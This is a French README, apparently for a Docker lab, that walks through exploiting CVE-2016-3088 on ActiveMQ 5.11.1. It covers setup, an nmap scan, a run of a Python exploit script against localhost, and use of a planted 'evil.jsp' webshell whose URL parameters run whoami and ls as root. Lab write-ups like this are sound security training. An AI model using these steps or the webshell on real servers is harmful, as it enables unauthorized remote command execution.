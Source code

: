 # README - Exploitation de CVE-2016-3088

Ce document détaille l'exploitation de la vulnérabilité **CVE-2016-3088** sur un serveur ActiveMQ. Il comprend la configuration de l'environnement, l'exécution de l'exploit, et la vérification de l'accès.

---

## **1. Configuration de l'environnement ActiveMQ**

### Lancer ActiveMQ avec Docker
1. Accédez au dossier `activemq_2016`.
2. Lancez ActiveMQ en arrière-plan avec Docker Compose :
   ```bash
   docker compose up -d
   ```
3. Accédez à l'interface d'administration ActiveMQ dans un navigateur :
   ```
   http://localhost:8161/admin/
   ```

![Interface ActiveMQ](https://github.com/user-attachments/assets/e20e4588-3776-4320-a3bb-e73a6db35405)

### Vérifier la version d'ActiveMQ
- La version d'ActiveMQ est visible dans l'interface d'administration, ici : **5.11.1**.
- Vous pouvez également confirmer la version dans le fichier `docker-compose.yml` :

![Version dans docker-compose.yml](https://github.com/user-attachments/assets/52a231f2-a055-442a-b362-cec6ed79b7bd)

---

## **2. Identifier les services actifs**

Utilisez `nmap` pour scanner le réseau et vérifier les services disponibles :
```bash
nmap -p- 192.168.1.145
```

![Résultats de nmap](https://github.com/user-attachments/assets/adf66034-e307-4601-8485-cc26b76d2a32)

---

## **3. Exploiter la vulnérabilité**

### Lancer l'exploit
1. Exécutez le script Python pour exploiter la faille :
   ```bash
   python3 CVE-2016-3088.py -u http://localhost:8161/
   ```

   ![Exécution de l'exploit](https://github.com/user-attachments/assets/c34cc77c-42b1-4d43-9c97-e98e63946e14)

### Accéder au WebShell
2. Si l'exploit réussit, vous pouvez accéder au WebShell malveillant via l'URL suivante :
   ```
   http://localhost:8161/api/evil.jsp?pwd=9527&i=whoami
   ```

   - Cette commande retourne l'utilisateur courant (ici `root`), prouvant que l'exploit a fonctionné.

   ![Confirmation de l'accès root](https://github.com/user-attachments/assets/9b6de1b9-f5a5-470c-b8b9-0faf53f3d8b4)

3. Remplacez `whoami` par d'autres commandes pour interagir avec le serveur.
   Exemple :
   ```
   http://localhost:8161/api/evil.jsp?pwd=9527&i=ls
   ```
   - Cette commande liste les fichiers sur le serveur :

   ![Affichage des fichiers](https://github.com/user-attachments/assets/2b1241fb-b26f-4f18-abff-4db980a52eb0)

---
